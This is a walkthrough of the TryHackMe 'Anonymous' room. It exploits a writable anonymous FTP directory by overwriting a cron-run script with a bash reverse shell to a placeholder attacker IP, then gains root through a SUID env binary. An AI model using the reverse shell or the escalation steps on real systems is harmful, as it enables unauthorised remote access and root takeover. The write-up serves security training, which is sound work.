

# Anonymous

<table>
<tr><td><strong>Platform</strong></td><td>TryHackMe</td></tr>
<tr><td><strong>Difficulty</strong></td><td>Medium</td></tr>
<tr><td><strong>URL</strong></td><td><a href="https://tryhackme.com/room/anonymous">https://tryhackme.com/room/anonymous</a></td></tr>
<tr><td><strong>Focus</strong></td><td>Writable anonymous FTP directory abused to inject a reverse shell via a cron-executed script, followed by SUID <code>env</code> privilege escalation</td></tr>
</table>

---

## Port Scan `[RECON]`

```bash
nmap -sS -sC -sV -Pn -p- <TARGET_IP> -oN nmap.txt

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.0.8 or later
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
```

Four open ports: FTP with anonymous login enabled, SSH, and Samba (two ports for the same service). The scan itself flags the FTP `scripts` directory as writable.

---

## Anonymous FTP Enumeration `[ENUMERATION]`

```bash
ftp <TARGET_IP>
Name: anonymous / Password: (blank)

220 NamelessOne's FTP Server!
ftp> ls -la

drwxr-xr-x    3 65534    65534        4096 May 13  2020 .
drwxr-xr-x    3 65534    65534        4096 May 13  2020 ..
drwxrwxrwx    2 111      113          4096 Jun 04  2020 scripts
```

The `scripts` directory has `drwxrwxrwx` permissions — writable by any anonymous FTP user.

```bash
ftp> cd scripts
ftp> ls -la

-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh
-rw-rw-r--    1 1000     1000         4085 Sep 14 19:35 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
```

`clean.sh` has permissions `-rwxr-xrwx` — the "other" write bit is set, making it writable via anonymous FTP. The timestamp on `removed_files.log`, far newer than the rest of the files, indicates the script runs periodically via a cron job owned by uid 1000.

---

## SMB Share Enumeration `[ENUMERATION]`

```bash
smbclient -L //<TARGET_IP> -N
smbclient //<TARGET_IP>/pics -N
```

The `pics` share contains two images.

> **Note:** Both images were checked with `exiftool`, `strings`, `binwalk -e`, `xxd`, `steghide`/`stegseek` (rockyou.txt), and `zsteg` — no hidden data found. Decoy discarded; the real vector is the writable anonymous FTP directory.

---

## Reverse Shell via clean.sh Overwrite `[EXPLOITATION]`

```bash
cat > clean.sh << 'EOF'
#!/bin/bash
bash -i >& /dev/tcp/<ATTACKER_IP>/<ATTACKER_PORT> 0>&1
EOF

ftp> cd scripts
ftp> put clean.sh
```

```bash
nc -lvnp <ATTACKER_PORT>
```

The cron job executes `clean.sh` automatically, triggering the reverse connection to the listener as `namelessone`.

---

## Shell Stabilization `[EXPLOITATION]`

```bash
python -c "import pty;pty.spawn('/bin/bash')"
# Ctrl+Z
stty raw -echo ; fg
export TERM=xterm
```

> **Note:** The target runs Python 2.7 (`/usr/bin/python`), not Python 3 — `pty.spawn` syntax is identical, but a trailing slash in the path (`'/bin/bash/'`) raises `OSError: Not a directory`; it must be `'/bin/bash'` without the trailing slash.

---

## SUID Binary Enumeration `[PRIVESC]`

```bash
find / -perm -4000 2>/dev/null
```

Two binaries stand out as non-default SUID for a standard system: `/usr/bin/env` and `/usr/bin/at`.

---

## Privilege Escalation via SUID env `[PRIVESC]`

```bash
ls -la /usr/bin/env

-rwsr-xr-x 1 root root 35000 Jan 18  2018 /usr/bin/env
```

The `s` bit confirms SUID is set. `env` with the SUID bit allows launching any program while inheriting root privileges, since it simply executes the binary passed as an argument without dropping privileges itself (documented in GTFOBins).

```bash
env /bin/sh -p

# id

uid=1000(namelessone) gid=1000(namelessone) euid=0(root) groups=1000(namelessone),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

The `-p` flag is required: without it, `sh` detects that the real UID (1000) and effective UID (0) differ and drops the elevated privileges for safety. With `-p`, it preserves them. Direct escalation from `namelessone` to root.

---

## Attack Chain



---

## Key Concepts

**SUID Binaries and GTFOBins**

When a binary has the SUID bit set, it always executes with the privileges of its file owner, regardless of who invokes it. Utilities like `env` are not privilege-aware: they simply invoke another program with the current environment, so if the SUID bit is set on `env` itself, the program it launches inherits the owner's privileges too. GTFOBins catalogs which common binaries can be abused this way to gain code execution or privilege escalation when set with SUID, sudo, or other unusual permissions.

**Writable FTP Directory Combined with a Scheduled Task**

An anonymous FTP share alone is a low-severity finding, but write access to a directory shared with a script executed on a schedule (cron) turns it into remote code execution. Any file dropped or overwritten there is later executed with the privileges of the cron job's owner, without requiring authentication to trigger it.

---

## Lessons Learned

- A file timestamp far more recent than its neighbors in an otherwise static-looking share is a strong signal of an active background process (cron) worth targeting for code execution.
